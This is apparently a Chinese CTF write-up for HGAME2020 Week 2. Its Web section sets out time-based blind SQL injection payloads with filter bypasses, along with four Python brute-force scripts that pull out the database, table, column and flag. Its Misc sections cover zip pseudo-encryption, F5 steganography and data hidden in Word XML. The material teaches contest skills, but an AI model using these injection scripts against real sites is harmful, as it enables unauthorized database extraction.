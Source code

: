 ```yaml
---
title: HGAME2020 Week2 WriteUp
date: 2020-02-19
updated: 2021-03-07
categories:
  - 学习笔记
  - CTF
  - 学习笔记
  - CTF
  - HGAME
tags:
  - Web
  - Misc
  - 图片隐写
  - Python
  - Hgame
  - SQL注入
  - 伪加密
  - 电子文档隐写
---
```


<h2><strong>Web</strong></h2>

<h3><strong>Cosmos的留言板-1</strong></h3>

<p>这题打开一看，一个留言板，没有可以操作的地方 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-2.png)</p>

<p> 唯一可疑的地方只有这个id，试着改了一下id，但从4开始就没有信息了，于是尝试把id改成字符。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-3.png)</p>

<p> 发现不管id是什么它都会显示在留言板上，于是这有了可操作性，可以当作一个注入点，然而历经漫长的时间，翻遍了网上sql的资料也没多少进展，只发现空格、加号和井号被过滤掉了。最后觉得这应该是一道基于时间的盲注，因为哪怕成功注入，也没用任何反应<del>（一直以为是没注入成功。。。）</del>确认这点之后，我就开始尝试利用sleep函数来进行各种操作。</p>

<p>事实的真相是这题用Union就可以做出的，我居然还盲注。。。</p>

<p>经过尝试发现可以用()和/**/来充当空格，还发现虽然#被过滤了，但URl编码后的%23没问题，于是试了下<code>id=1'and/**/sleep(1)/**/%23</code>。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-4.png)</p>

<p> 然后我尝试了手动爆破，令id=<code>1%27and(sleep(ascii(mid(database()from(1)for(1)))-97))%23</code>,通过将目标字符和指定字符的ascii码的差值反应在时间间隔上，来算出对应字符，但花了半天才爆破出数据库名easysql，想到后面的表名、列名和字段，顿时生无可恋。于是，再次拿起了python。 </p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆库名
import requests
import time

flag = ''
maxlength = 50
host = 'http://139.199.182.61/index.php?'

for i in range(1, 8):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substring((database()),{0},1))={1},sleep(3),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 2:
            flag += chr(x)
            print(flag)
            break</code></pre>

<p>然后爆表名，但发现出了问题，没有回显，说明sql语句有错误，然后简单的测试了一下，最后确定是select被过滤了，尝试把s大写，看看能不能绕过。OK，有回显了，说明大写可以绕过。然后就还是老方法，通过时间间隔，得出有两个表，表名长度分别是16和8。</p>

<p>令id=<code>1%27and(sleep(length((Select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=%27easysql%27limit/**/0,1))))%23</code></p>

<p>继续用python爆破表名,我当初真的很怀疑这道题真的这么复杂吗。。。但还是一路走到底了。至少Week3也用上了这些代码，也不算完全白费工夫。。。</p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆表名
import requests
import time

flag = ''
maxlength = 10
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(97,127):
        payload = "id=1\'and(if(ascii(substring((Select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema='easysql'limit/**/0,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break</code></pre>

<p> 由于某些未定义事件的发生，重新爆了几遍，最后确定两个表名<code>f1aggggggggggggg</code>和<code>messages</code>。  之后是列名，先看看长度和个数</p>

<p>令id=<code>1%27and(sleep(length((Select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name=%27f1aggggggggggggg%27limit/**/0,1))))%23</code></p>

<p>发现flag那个表只有一列，列名长度为10，另一个表有两列，长度分别是2和7，第二个表显然是放留言板里的信息的了，就不管了，那么就爆flag表的列名。 </p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆列名
import requests
import time

flag = ''
maxlength = 12
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substring((Select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name='f1aggggggggggggg'limit/**/0,1),{0},1))={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break</code></pre>

<p> sleep的时间长一点，准确度会稍微高一点，也就一点。。。得到列名<code>fl4444444g</code>。最后爆字段，先看看长度。</p>

<p>令id=<code>1%27and(sleep(length((Select/**/fl4444444g/**/from/**/f1aggggggggggggg/**/limit/**/0,1))))%23</code>，发现只有一个字段，长度为44。。。不想说话了，爆吧。。。 </p>

<pre class="wp-block-code"><code lang="python" class="language-python">#爆字段。。。
import requests
import time

flag = ''
maxlength = 45
host = 'http://139.199.182.61/index.php?'

for i in range(1, maxlength):
    for x in range(32,127):
        payload = "id=1\'and(if(ascii(substr((Select/**/fl4444444g/**/from/**/f1aggggggggggggg/**/limit/**/0,1),{0},1)) ={1},sleep(5),null))%23"
        url = (host + payload.format(i,x))
        print(url)
        start_time=time.time()
        r = requests.get(url)
        if time.time() - start_time > 4:
            flag += chr(x)
            print(flag)
            break</code></pre>

<p> 爆了不知道多少遍终于确定了flag是<code>hgame{w0w_sql_InjeCti0n_Is_S0_IntereSting!!}</code></p>

<p>下面是最后一次的结果，还是有几个字符是错的。。。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-web-1.png)</p>

<h2>Misc </h2>

<h3>所见即所假 </h3>

<p> 下载下来一个压缩包，发现有密码，看了下压缩包的备注之类的信息，只发现了这句话。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-2.png)</p>

<p>先不管F5是什么，试了一下Key，发现不对，看来这是解压以后才可能用到的，那么先不管。再看了眼题目和对联。。。只表达了一个意思，那就是你看到的可能是假的，再加上一上来就是个加密的zip，多半就是伪加密了，用Winhex看看,发现压缩文件数据区的全局方式位标记这边是0，可见果然是伪加密。</p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-3.png)</p>

<p> 然后找一下压缩文件的目录区，把全局方式位标记这里的9改成0即可破解加密<del>（目录区居然在最后面，一开始没用搜索，找个半死。。。）</del></p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-4.png)</p>

<p> 解压发现只有一张图片，看了下，也没有压缩包之类的藏在图片里，备注之类的地方也没有东西，那么之前压缩包里的注释就是提示，F5应该是指F5隐写，于是先把<code>F5-steganography</code>给clone下来，然后运行一下。</p>

<pre class="wp-block-code"><code lang="powershell" class="language-powershell">cd ......\GitHub\F5-steganography
java Extract FLAG_IN_PICTURE.jpg -p NllD7CQon6dBsFLr</code></pre>

<p>这边不知道为什么必须把图片放在同一个文件夹里才能运行，用绝对路径的话不行。。。 </p>

<p>然后得到一个output.txt，打开一看全是数字和字母，字母最大就是E，看来是个十六进制，转成字符串就得到了flag。</p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-1.png)</p>

<h3>地球上最后的夜晚</h3>

<p>下下来一个压缩包，没有密码，解压后里面有一个pdf和一个加密的7z压缩包，先看了下注释之类的地方，没用有用的东西，pdf打开发现是篇深度学习相关的论文？虽然名字是No password，但密码肯定和这个pdf相关，之后我在找F5隐写相关的资料的时候，发现了一个叫wbStego4.3open的软件，可以把文件隐藏到BMP，TXT，HTM和PDF文件中。那么就试试这个软件，然后生成了一个txt文件，里面有解压的密码。</p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-5.png)</p>

<p>把文件解压之后，里面只有一个word文档，打开来一看里面还真是地球上最后的夜晚，看了下没用特殊的地方，打开隐藏文字，也没有看到flag出现。找了下资料，发现word可以转换成xml，也可从xml转换回来。所以在重新打包成word的时候有可能被隐藏进其他数据。于是把这个word文档解压试试。</p>

<p>翻了半天，找到了一个secret.xml，打开一看，成功找到了flag。 </p>

![](https://img.blueflame.org.cn/images/2020/02/week2-misc-6.png)</p>
